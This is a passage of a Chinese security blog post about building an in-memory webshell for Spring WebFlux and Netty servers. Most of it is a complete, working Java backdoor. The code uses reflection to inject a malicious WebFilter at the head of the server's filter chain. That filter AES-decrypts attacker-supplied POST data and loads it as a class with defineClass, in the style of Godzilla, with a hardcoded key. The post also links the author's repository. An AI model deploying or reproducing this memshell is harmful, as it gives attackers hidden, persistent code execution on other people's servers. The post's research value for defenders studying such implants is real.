   author: c0ny1<root@gv7.me>
   github: http://github.com/c0ny1/java-object-searcher
#############################################################

TargetObject = {reactor.netty.resources.DefaultLoopResources$EventLoop} 
   ---> group = {java.lang.ThreadGroup} 
    ---> threads = {class [Ljava.lang.Thread;} 
     ---> [5] = {org.springframework.boot.web.embedded.netty.NettyWebServer$1} 
      ---> this$0 = {org.springframework.boot.web.embedded.netty.NettyWebServer} 
       ---> handler = {org.springframework.http.server.reactive.ReactorHttpHandlerAdapter} 
        ---> httpHandler = {org.springframework.boot.web.reactive.context.WebServerManager$DelayedInitializationHttpHandler} 
         ---> delegate = {org.springframework.web.server.adapter.HttpWebHandlerAdapter} 
          ---> delegate = {org.springframework.web.server.handler.ExceptionHandlingWebHandler} 
            ---> delegate = {org.springframework.web.server.handler.FilteringWebHandler} 
             ---> chain = {org.springframework.web.server.handler.DefaultWebFilterChain} 
              ---> allFilters = {java.util.List<org.springframework.web.server.WebFilter>} 
               ---> [0] = {com.example.webfluxmem.NormalFilter}
```

工具还是比较强大的，完整的获取到了filter储存的位置，我们可以看到，所有filter都被储存在了chain属性里，然后chain属性是被存在FilteringWebHandler里面。所以要注入的话我们就得添加一个恶意的chain进去。  
那么有师傅就会好奇为什么我不能直接加一个Filter到allFilters属性里去呢？这个问题就涉及到WebFlux的设计了，一个DefaultWebFilterChain实例就是chain的一个link，这个问题在  
[https://xz.aliyun.com/t/11331](https://xz.aliyun.com/t/11331)有解答  
那我们思路明确了，获取到FIlteringWebHandler后就注入恶意chain就结束了。  
最终我内存马如下

```java
package com.example.webfluxmem;

import org.springframework.boot.web.embedded.netty.NettyWebServer;
import org.springframework.core.io.buffer.DataBuffer;
import org.springframework.core.io.buffer.DefaultDataBuffer;
import org.springframework.core.io.buffer.DefaultDataBufferFactory;
import org.springframework.http.HttpHeaders;
import org.springframework.http.HttpStatus;
import org.springframework.http.server.reactive.ReactorHttpHandlerAdapter;
import org.springframework.http.server.reactive.ServerHttpResponse;
import org.springframework.util.MultiValueMap;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.server.WebHandler;
import org.springframework.web.server.adapter.HttpWebHandlerAdapter;
import org.springframework.web.server.handler.DefaultWebFilterChain;
import org.springframework.web.server.handler.ExceptionHandlingWebHandler;
import org.springframework.web.server.handler.FilteringWebHandler;
import reactor.core.publisher.Mono;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.net.URL;
import java.net.URLClassLoader;
import java.nio.charset.StandardCharsets;
import java.util.ArrayList;
import java.util.List;

public class WebFluxFilterMemshell implements WebFilter {
    String xc = "3c6e0b8a9c15224a"; // key
    String pass = "pass";
    String md5 = md5(pass + xc);
    Class payload;
    public byte[] x(byte[] s, boolean m) {
        try {
            Cipher c = Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    }
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
        } catch (Exception e) {
        }
        return ret;
    }

    public static String base64Encode(byte[] bs) throws Exception {
        Class base64;
        String value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Encoder");
                Object Encoder = base64.newInstance();
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
    public static Object getFieldValue(Object obj, String fieldName,boolean superClass) throws Exception {
        Field f;
        if(superClass){
            f = obj.getClass().getSuperclass().getDeclaredField(fieldName);
        }else {
            f = obj.getClass().getDeclaredField(fieldName);
        }
        f.setAccessible(true);
        return f.get(obj);
    }
    public static String doInject() {
        String msg = "Inject MemShell Failed";
        Method getThreads = null;
        try {
            getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);
            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    // 获取defaultWebFilterChain
                    NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0",false);
                    ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler",false);
                    Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler",false);
                    HttpWebHandlerAdapter httpWebHandlerAdapter= (HttpWebHandlerAdapter)getFieldValue(delayedInitializationHttpHandler,"delegate",false);
                    ExceptionHandlingWebHandler exceptionHandlingWebHandler= (ExceptionHandlingWebHandler)getFieldValue(httpWebHandlerAdapter,"delegate",true);
                    FilteringWebHandler filteringWebHandler = (FilteringWebHandler)getFieldValue(exceptionHandlingWebHandler,"delegate",true);
                    DefaultWebFilterChain defaultWebFilterChain= (DefaultWebFilterChain)getFieldValue(filteringWebHandler,"chain",false);
                    // 构造新的Chain进行替换
                    Object handler= getFieldValue(defaultWebFilterChain,"handler",false);
                    List<WebFilter> newAllFilters= new ArrayList<>(defaultWebFilterChain.getFilters());
                    newAllFilters.add(0,new WebFluxFilterMemshell());// 链的遍历顺序即"优先级"，因此添加到首位
                    DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
                    Field f = filteringWebHandler.getClass().getDeclaredField("chain");
                    f.setAccessible(true);
                    Field modifersField = Field.class.getDeclaredField("modifiers");
                    modifersField.setAccessible(true);
                    modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);// 去掉final修饰符以重新set
                    f.set(filteringWebHandler,newChain);
                    modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);
                    msg = "Inject MemShell Successful";
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        return msg;
    }
    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        return exchange.getResponse().writeWith(getPost(exchange));
    }
    private Mono<DefaultDataBuffer> getPost(ServerWebExchange exchange){
        Mono<MultiValueMap<String, String>> formData = exchange.getFormData();
        Mono<DefaultDataBuffer> bytesdata = formData.flatMap(map -> {
            StringBuilder result = new StringBuilder();
            try {
                byte[] data = base64Decode(map.getFirst(pass));
                data = x(data, false);
                if (payload == null) {
                    URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
                    Method defMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                    defMethod.setAccessible(true);
                    payload = (Class) defMethod.invoke(urlClassLoader, data, 0, data.length);
                } else {
                    ByteArrayOutputStream arrOut = new ByteArrayOutputStream();
                    Object f = payload.newInstance();
                    f.equals(arrOut);
                    f.equals(data);
                    f.equals(exchange.getRequest());
                    result.append(md5.substring(0, 16));
                    f.toString();
                    result.append(base64Encode(x(arrOut.toByteArray(), true)));
                    result.append(md5.substring(16));
                }
            }
            catch (Exception e) {

            }
            return Mono.just(new DefaultDataBufferFactory().wrap(result.toString().getBytes(StandardCharsets.UTF_8)));
        });
        return bytesdata;

    }
}
```

还是比较好玩的啊哈，主要问题也是那个request对象的获取，我发现netty和webflux都是大差不差。netty是更底层的东西，springWebflux其实是基于netty的。通过构造内存马对哥斯拉内存马的逻辑又加深了一层，哥斯拉内存马主要是进行defineclass执行指令。获取body中pass参数的值，所以小难点就是拿到值，这个属于是开发的知识，web狗表示有点不熟悉，不过网上搜着搜着也就出来了。



  
2个马都比较好玩，其中Netty我用的是JAVA\_AES\_RAW，并无base64加密。

# 相关代码

相关代码均已上传github  
[https://github.com/Boogipop/Netty-WebFlux-Memshell](https://github.com/Boogipop/Netty-WebFlux-Memshell)
